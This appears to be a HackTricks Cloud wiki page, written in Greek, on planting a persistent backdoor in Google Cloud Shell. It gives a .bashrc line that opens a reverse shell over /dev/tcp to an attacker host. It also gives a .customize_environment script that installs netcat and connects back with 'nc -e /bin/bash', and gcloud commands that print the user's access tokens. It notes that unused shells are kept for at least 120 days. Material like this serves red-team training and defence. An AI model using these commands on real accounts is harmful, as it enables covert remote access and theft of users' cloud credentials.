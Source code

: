 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) σας παρέχει πρόσβαση γραμμής εντολών στους πόρους σας στο cloud απευθείας από το πρόγραμμα περιήγησής σας χωρίς κανένα σχετικό κόστος.

Μπορείτε να αποκτήσετε πρόσβαση στο Cloud Shell της Google από την **ιστοσελίδα κονσόλας** ή εκτελώντας **`gcloud cloud-shell ssh`**.

Αυτή η κονσόλα έχει κάποιες ενδιαφέρουσες δυνατότητες για τους επιτιθέμενους:

1. **Οποιοσδήποτε χρήστης της Google με πρόσβαση στο Google Cloud** έχει πρόσβαση σε μια πλήρως πιστοποιημένη περίπτωση Cloud Shell (Οι Λογαριασμοί Υπηρεσιών μπορούν, ακόμη και αν είναι Ιδιοκτήτες της οργάνωσης).
2. Η εν λόγω περίπτωση θα **διατηρήσει τον κατάλογο αρχικής της για τουλάχιστον 120 ημέρες** αν δεν συμβεί καμία δραστηριότητα.
3. Δεν υπάρχουν **δυνατότητες για μια οργάνωση να παρακολουθεί** τη δραστηριότητα αυτής της περίπτωσης.

Αυτό σημαίνει βασικά ότι ένας επιτιθέμενος μπορεί να τοποθετήσει μια πίσω πόρτα στον κατάλογο αρχικής του χρήστη και όσο ο χρήστης συνδέεται στο GC Shell τουλάχιστον κάθε 120 ημέρες, η πίσω πόρτα θα επιβιώσει και ο επιτιθέμενος θα αποκτά πρόσβαση σε ένα shell κάθε φορά που εκτελείται απλά κάνοντας:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Υπάρχει ένα άλλο αρχείο στον φάκελο του χρήστη που ονομάζεται **`.customize_environment`** το οποίο, αν υπάρχει, θα **εκτελείται κάθε φορά** που ο χρήστης έχει πρόσβαση στο **cloud shell** (όπως στην προηγούμενη τεχνική). Απλώς εισάγετε την προηγούμενη πίσω πόρτα ή μία όπως η παρακάτω για να διατηρήσετε την επιμονή όσο ο χρήστης χρησιμοποιεί "συχνά" το cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Είναι σημαντικό να σημειωθεί ότι την **πρώτη φορά που εκτελείται μια ενέργεια που απαιτεί αυθεντικοποίηση**, εμφανίζεται ένα παράθυρο εξουσιοδότησης στον περιηγητή του χρήστη. Αυτό το παράθυρο πρέπει να γίνει αποδεκτό πριν μπορέσει να εκτελεστεί η εντολή. Εάν εμφανιστεί ένα απροσδόκητο παράθυρο, μπορεί να προκαλέσει υποψίες και ενδεχομένως να θέσει σε κίνδυνο τη μέθοδο επιμονής που χρησιμοποιείται.
{% endhint %}

Αυτό είναι το παράθυρο που προκύπτει από την εκτέλεση του `gcloud projects list` από το cloud shell (ως επιτιθέμενος) που προβάλλεται στη συνεδρία του περιηγητή του χρήστη:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Ωστόσο, εάν ο χρήστης έχει χρησιμοποιήσει ενεργά το cloudshell, το παράθυρο δεν θα εμφανιστεί και μπορείτε να **συγκεντρώσετε τα tokens του χρήστη με**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Πώς καθορίζεται η σύνδεση SSH

Βασικά, αυτές οι 3 κλήσεις API χρησιμοποιούνται:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (θα σας κάνει να προσθέσετε το δημόσιο κλειδί που δημιουργήσατε τοπικά)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (θα σας κάνει να ξεκινήσετε την παρουσία)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (θα σας πει τη διεύθυνση ip του google cloud shell)

Αλλά μπορείτε να βρείτε περισσότερες πληροφορίες στο [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Αναφορές

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
